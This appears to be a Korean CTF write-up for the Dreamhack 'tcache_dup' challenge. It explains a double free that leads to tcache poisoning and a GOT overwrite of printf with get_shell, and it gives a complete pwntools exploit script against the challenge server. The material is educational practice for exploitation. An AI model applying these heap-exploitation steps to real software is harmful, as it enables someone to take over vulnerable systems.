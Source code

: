 `tcache`의 크기 범위에 해당하는 하나의 청크를 `malloc` 후, `free`를 2번 해주면 알아서 `tcache poisoning`이 가능하다.

이후 `duplicated`된 청크를 `malloc`으로 재할당 하여 해당 청크에 `printf@got`를 대입해주면 `tcache` 연결 리스트 엔트리에 `printf@got`가 추가되게 된다.

그런 다음에 `duplicated`된 나머지 청크 하나를 `malloc`으로 재할당하여 빼주고, 다시 `malloc`을 해서 `printf@got`를 빼주면서 `get_shell`의 주소를 대입해주면 `GOT Overwrite`를 성공하게 된다.

참고로 `GOT` 는 `.bss` 영역에 존재하고 `PIE`가 적용되어있지 않아서 `gdb`로 바로 확인할 수도 있고, 바이너리에서 `pwntools`로 구해도 된다. (갑자기 `got`가 `libc`에 있다고 착각했는데 바이너리의 `.bss`에 존재하는 것을 잘 기억하자. `plt`는 바이너리의 `code` 영역)

<img width="358" alt="image" src="https://github.com/user-attachments/assets/cf5c3f26-83c6-4be9-8a5d-e0c0cb212a5a">

<img width="845" alt="image" src="https://github.com/user-attachments/assets/1e7cf648-5482-4d70-844a-c83f9748947f">

**`got` 주소 : `0x601038`**

<br>

```py
from pwn import *

p = remote('host3.dreamhack.games', 24519)
elf = ELF('./tcache_dup')


def create(size, data):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendlineafter(b'Data: ', data)


def delete(idx):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'idx: ', str(idx).encode())


create(0x20, b'a')


# tcache[0x20] : chunk (1)
delete(0)  # (1)


# tcache[0x20] : chunk(2) -> chunk (1)
delete(0)  # (2)


printf_got = elf.got['printf']
# tcache[0x20] : chunk(1) -> printf@got
create(0x20, p64(printf_got))


# tcache[0x20] : printf@got
create(0x20, b'a')


get_shell = elf.symbols['get_shell']
# tcache[0x20] : empty

create(0x20, p64(get_shell))

p.interactive()
```
